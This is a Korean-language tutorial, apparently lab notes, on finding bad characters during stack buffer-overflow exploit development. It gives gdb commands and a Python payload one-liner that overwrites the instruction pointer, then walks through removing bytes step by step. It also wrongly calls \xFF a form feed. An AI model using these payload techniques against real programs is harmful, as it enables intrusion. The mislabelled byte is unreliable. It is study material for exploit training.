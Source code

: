 # 문제되는 문자 식별

## 개요

이와 유사하게, 특정 애플리케이션에서도 "예약 문자(bad characters)"가 존재합니다. 이러한 문자는 항상 존재하는 것은 아니며, 애플리케이션마다 다를 수 있습니다. 예를 들어 흔히 문제되는 문자는 다음과 같습니다:

- `\x00` - 널 바이트 (Null Byte)
- `\x0A` - 줄 바꿈 (Line Feed)
- `\x0D` - 캐리지 리턴 (Carriage Return)
- `\xFF` - 폼 피드 (Form Feed)

이런 문제 문자를 식별하려면, 가능한 모든 문자를 포함한 바이트 스트링을 프로그램에 입력한 뒤 메모리 상태를 관찰합니다.

---

## 모든 문자 리스트 (CHARS 변수)

```bash
CHARS="\x00\x01\x02...\xff"  # 0x00부터 0xFF까지 256개 문자
```

- 길이 확인:

```bash
echo $CHARS | sed 's/\\x/ /g' | wc -w
# 출력: 256
```

- 버퍼 재계산:

```bash
Buffer = "\x55" * (1040 - 256 - 4) = 780
CHARS = 전체 문자
EIP = "\x66" * 4
```

---

## GDB에서 브레이크포인트 설정

```gdb
(gdb) disas main
(gdb) break bowfunc
```

## 프로그램 실행 및 입력 전달

```bash
gdb) run $(python -c 'print "\x55" * 780 + CHARS + "\x66" * 4')
```

- payload.txt에 저장 후 gdb 실행:
```bash
python3 -c 'print("\x55" * (1040 - 256 - 4) + "".join(["\\x%02x" % i for i in range(256)]) + "\x66" * 4)' > payload.txt
```

```bash
print("\x55" * (1040 - 256 - 4) // padding 값
"".join(["\\x%02x" % i for i in range(256)]) // bad characters 설정                                        
"\x66" * 4 // rip 주소 바이트 값
```
* run < payload.txt → stdin (gets() 쓸 때만)
* run $(cat payload.txt) → argv (strcpy(argv[1])일 때)

- 실행 중 널 바이트 경고:

```
/bin/bash: warning: command substitution: ignored null byte in input
```

---

## 스택 메모리 확인

```gdb
(gdb) x/2000xb $esp+500
```

- `\x55` 시작 위치 찾기
- 이후 CHARS 변수의 시작 위치 찾기
- CHARS가 `\x00`이 아닌 `\x01`부터 시작함을 확인 (널 바이트 무시됨)

- 수정:

```bash
Buffer = "\x55" * (1040 - 255 - 4) = 781
CHARS = "\x01\x02...\xff"  # \x00 제거됨
```

---

## 반복적 제거 과정 예시

1. 실행 후 `\x09`가 사라지고 `\x00`이 다시 나타남 → `\x09` 제거

```bash
Buffer = "\x55" * (1040 - 254 - 4) = 782
CHARS = "\x01\x02...\x08\x0a...\xff"
```

2. 다시 실행 → `\x0a`도 사라짐 확인 → `\x0a` 제거 등

> 이런 방식으로 CHARS를 줄여가며 실제로 입력 시 문제를 발생시키는 문자를 찾아냅니다.

---

## 요약

- 입력한 CHARS에서 문제가 되는 문자(= bad chars)는 입력값이 중간에 잘리거나, 예상 순서에서 누락된 문자로 식별됨.
- 발견된 bad chars는 제거하고, 버퍼 크기를 그에 맞춰 재조정함.
- 이 과정을 반복하여 신뢰할 수 있는 쉘코드를 생성할 수 있다.

